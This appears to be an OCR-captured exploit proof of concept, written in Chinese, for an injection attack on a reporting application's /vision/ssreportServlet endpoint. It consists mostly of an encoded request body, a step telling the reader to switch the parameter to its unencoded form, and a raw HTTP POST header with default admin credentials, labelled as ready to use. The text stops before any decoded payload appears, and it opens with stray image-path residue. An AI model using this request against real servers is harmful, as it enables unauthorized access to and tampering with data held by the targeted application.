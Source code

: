 ```
sheetIndex=0&resid=I40281d81016a8bc28bc20231016aaee007b230ac&clientId=Iff8080810176f0c7f0c7544f0176f54eb72c1160&refreshType=refresh&paramsInfoEncode=encode=/JV/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aJ/'T/mJ/aK/VT/'T/aJ/m7/'T/a9/O9/V7/uu/ut/uu6(dp/uu/NO/uu/aJ/'T/mJ/aK/VT/'T/aJ/m7/'T/a9/O9/V7/uu/ut/uu(SR(D/uu/NO/uu/aJ/'T/mJ/aK/VT/'T/aJ/m7/'T/a9/O9/V7/uu/ut/uug(SQp/uu/NO/uun111/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uun111/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aM/'m/'7/aJ/V1/ma/aM/mt/VO/aM/ma/'K/uu/ut/uu6(dp/uu/NO/uu/aM/'m/'7/aJ/V1/ma/aM/mt/VO/aM/ma/'K/uu/ut/uu(SR(D/uu/NO/uu/aM/'m/'7/aJ/V1/ma/aM/mt/VO/aM/ma/'K/uu/ut/uug(SQp/uu/NO/uu/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aM/'m/'7/aJ/mt/O'/a9/mt/'1/aK/VV/VT/uu/ut/uu6(dp/uu/NO/uu/aM/'m/'7/aJ/mt/O'/a9/mt/'1/aK/VV/VT/uu/ut/uu(SR(D/uu/NO/uu/aM/'m/'7/aJ/mt/O'/a9/mt/'1/aK/VV/VT/uu/ut/uug(SQp/uu/NO/uuKK7777/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/aJ/Vm/Vx/aK/V'/mt/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aM/'m/'7/aJ/mt/O'/aJ/mt/V7/aJ/V'/'u/uu/ut/uu6(dp/uu/NO/uu/aM/'m/'7/aJ/mt/O'/aJ/mt/V7/aJ/V'/'u/uu/ut/uu(SR(D/uu/NO/uu/aM/'m/'7/aJ/mt/O'/aJ/mt/V7/aJ/V'/'u/uu/ut/uug(SQp/uu/NO/uu/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/aJ/'J/O'/am/'N/O'/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aM/'m/'7/aJ/mt/O'/aJ/'t/VO/aJ/'a/Vx/uu/ut/uu6(dp/uu/NO/uu/aM/'m/'7/aJ/mt/O'/aJ/'t/VO/aJ/'a/Vx/uu/ut/uu(SR(D/uu/NO/uu/aM/'m/'7/aJ/mt/O'/aJ/'t/VO/aJ/'a/Vx/uu/ut/uug(SQp/uu/NO/uu/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/aJ/'J/O'/am/'N/O'/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~MqRh/uu/ut/uu6(dp/uu/NO/uuRh/uu/ut/uu(SR(D/uu/NO/uu/aM/ON/'7/aM/VJ/'V/aM/mt/VO/aM/ma/'KRh/uu/ut/uug(SQp/uu/NO/uu/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aJ/O1/OV/aM/'O/OJ/aM/m9/VM/am/m9/VK/a'/VJ/V9/uu/ut/uu6(dp/uu/NO/uu/aJ/O1/OV/aM/'O/OJ/aM/m9/VM/am/m9/VK/a'/VJ/V9/uu/ut/uu(SR(D/uu/NO/uu/aJ/O1/OV/aM/'O/OJ/aM/m9/VM/am/m9/VK/a'/VJ/V9/uu/ut/uug(SQp/uu/NO/uu/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aJ/O1/OV/aM/'O/OJ/aM/m9/VM/am/m9/VK/aM/OT/Ou/uu/ut/uu6(dp/uu/NO/uu/aJ/O1/OV/aM/'O/OJ/aM/m9/VM/am/m9/VK/aM/OT/Ou/uu/ut/uu(SR(D/uu/NO/uu/aJ/O1/OV/aM/'O/OJ/aM/m9/VM/am/m9/VK/aM/OT/Ou/uu/ut/uug(SQp/uu/NO/uu/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aM/mV/VK/aM/mM/V7/aM/m9/VM/am/m9/VK/a'/VJ/V9/uu/ut/uu6(dp/uu/NO/uu/aM/mV/VK/aM/mM/V7/aM/m9/VM/am/m9/VK/a'/VJ/V9/uu/ut/uu(SR(D/uu/NO/uu/aM/mV/VK/aM/mM/V7/aM/m9/VM/am/m9/VK/a'/VJ/V9/uu/ut/uug(SQp/uu/NO/uu/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aM/mV/VK/aM/mM/V7/aM/m9/VM/am/m9/VK/aM/OT/Ou/uu/ut/uu6(dp/uu/NO/uu/aM/mV/VK/aM/mM/V7/aM/m9/VM/am/m9/VK/aM/OT/Ou/uu/ut/uu(SR(D/uu/NO/uu/aM/mV/VK/aM/mM/V7/aM/m9/VM/am/m9/VK/aM/OT/Ou/uu/ut/uug(SQp/uu/NO/uu/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/uu/9T/JT&pageId=0&writeBackData=&exportSheetIndexes=&exportId=&op=%7B%22getTotalPages%22%3Atrue%2C%22sheetPageCounts%22%3A%5B1%5D%7D
```

### 解码并修改数据包直接注入（可直接使用）：

修改 paramsInfoEncode 为 paramsInfo，将 Encode 参数去掉

```
POST /vision/ssreportServlet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://127.0.0.1/vision/openresource.jsp?iPad=true&refresh=true&showtoolbar=false&showPath=false&resid=I40281d81016a8bc28bc20231016aaee007b230ac&_timestamp=1610433924926
Content-Type: application/x-www-form-urlencoded
Content-Length: 3282
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cookie: FQPassword=; JSESSIONID=4BB550BF10C606619B753D3CE52CD3AB
Upgrade-Insecure-Requests: 1

```